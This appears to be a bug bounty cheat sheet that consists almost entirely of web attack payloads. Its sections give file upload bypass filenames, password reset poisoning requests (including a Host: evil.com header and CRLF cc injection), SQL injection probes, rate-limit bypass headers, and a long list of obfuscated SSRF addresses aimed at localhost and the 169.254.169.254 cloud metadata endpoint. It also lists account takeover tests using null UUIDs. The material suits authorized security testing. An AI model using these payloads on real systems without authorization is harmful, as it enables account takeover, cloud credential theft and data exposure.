 # Bug Bounty Tips
---

## File Upload

`.htaccess`

`file.svg`

`file.SVg`

`file.png.svg`

`file.php%00.png`

`file.png' or '1'='1`

`../../file.png`

`file.'svg`

## Password Reset

```
POST /reset  
email=victim@tld.xyz&email=hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz&token=$BF$
```

```
POST /reset  
email=victim@tld.xyz&token=
```

```
POST /reset  
email=victim@tld.xyz&token=0000000
```

```
POST /reset  
email=victim@tld.xyz&token=nul
```

```
POST /reset  
email=victim@tld.xyz&token=nil
```

```
POST /reset  
email=victim@tld.xyz&token=HACKER-TOKEN
```

```
POST /reset  
email=victim@tld.xyz%0a%0dcc:hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz,hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz%20hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz|hacker@tld.xyz
```

```
POST /reset  
email=victim
```

```
POST /reset  
email=victim@tld
```

```
POST /reset  
Host: evil.com
```

```
POST /reset
{"email":["victim@tld.xyz","hacker@tld.xyz"]}
```

**Check body response for password token**

**Token generation: timestamp? userid? useremail? random?**

## SQL Injection

`/?q=1`

`/?q=1'`

`/?q=1"`

`/?q=[1]`

`/?q[]=1`

```/?q=1` ```

`/?q=1\`

`/?q=1/*'*/`

`/?q=1/*!1111'*/`

`/?q=1'||'asd'||'`

`/?q=1' or '1'='1`

`/?q=1 or 1=1`

`/?q='or''='`

```
username: '--' / "--"
password: '--' / "--"
```

## CORS

```python
if isBlocked("evil.com"):
  try("target.network")
  try("target.computer")
```

## Recon


`site:http://ideone.com | site:http://codebeautify.org | site:http://codeshare.io | site:http://codepen.io | site:http://repl.it | site:http://justpaste.it | site:http://pastebin.com | site:http://jsfiddle.net | site:http://trello.com "$TARGET"`

## File analysis

### Javascript

```
apt-get install jsbeautifier
wget https://target/app.js
js-beautify app.js > pretty.js
grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```

## Rate limit bypass

```
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

**Increment last octate if blocked**

## Subdomain list

amass + altdns + dnsprobe + nmap

## Information disclosure

> Check if email disclosed in response after inviting a user

## SSRF

`site.com/?url=FUZZ`

```
http://169.254.169.254\http://0.google.com <=== PHP cve2020
https://[0:0:0:0:0:0:0:0]
https://0.0.0.0
https://[::]
https://0177.1
https://0x7f.1
http://0x7f000001
http://2130706433
http://127.000.001
https://[0:0:0:0:0:ffff:0.0.0.0]
https://[::ffff:0.0.0.0]
https://017700000001
https://[0:0:0:0:0:ffff:127.0.0.1]
https://[::ffff:127.0.0.1]/
https://[::ffff:7f00:2]
https://[::ffff:127.0.0.1]
https://[::ffff:7f00:1]
https://[0:0:0:0:0:ffff:127.0.0.2]
http://[::ffff:169.254.169.254]
http://[0:0:0:0:0:ffff:169.254.169.254]
https://[::ffff:127.0.0.2]
http://[::ffff:a9fe:a9fe]
https://0x7f.0.0.1
https://[::ffff:0:0]
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
http://169-254-169-254.nip.io
http://127.1
http://127.000000000000000.001
http://127.000.000.00000000000000001
```

## Account Takeover

UUID, 2FA, any token...

```
UUID: 0
UUID: 0000
UUID: null
UUID: nil
UUID: numerical value
UUID:
```

## Bad Practice

> Check if email links are in HTTP
